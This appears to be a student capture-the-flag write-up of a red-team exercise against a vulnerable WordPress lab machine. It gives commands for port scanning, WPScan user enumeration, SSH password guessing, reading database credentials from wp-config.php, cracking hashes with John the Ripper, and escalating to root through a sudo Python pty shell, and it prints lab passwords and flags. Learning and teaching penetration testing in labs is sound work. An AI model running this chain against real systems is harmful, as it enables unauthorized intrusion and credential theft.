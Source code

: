 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.110
```
![](https://github.com/jamesdewhirst/FinalProject/blob/main/Images/1-nmap.png)

This scan identifies the services below as potential points of entry:

**Target 1**
```
- Port 22/TCP   Open SSH
- Port 80/TCP   Open HTTP
- Port 111/TCP 	Open rcpbind
- Port 139/TCP 	Open netbios-ssn
- Port 445/TCP 	Open netbios-ssn
```

The following vulnerabilities were identified on each target:
**Target 1**
```
- Weak User Password
- WordPress - user enumeration and unsalted user password hash
- Escalation of privilege
```

---

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

![WPScan results](/Images/nmap-scan-results.png "WPScan results")

- Targeting user Michael
    - Small manual Brute Force attack to guess/finds Michael’s password
    - User password was weak and obvious
    - Password: michael
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`

![Flag 1 location](/Images/flag1-location.png "Flag 1 location")

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.
    - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
        - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`

![Flag 2 location](/Images/flag2-location.png "Flag 2 location")

![Flag 2 cat](/Images/flag2-cat.png "Flag 2 cat")

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![Flag 3 location](/Images/flag3-location.png "Flag 3 location")

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - ![wp_users table](/Images/wpusers-table.png "wp_users table")

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper results](/Images/john-results.png "John the Ripper results")

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![Flag 4 location](/Images/flag4-location.png "Flag 4 location")
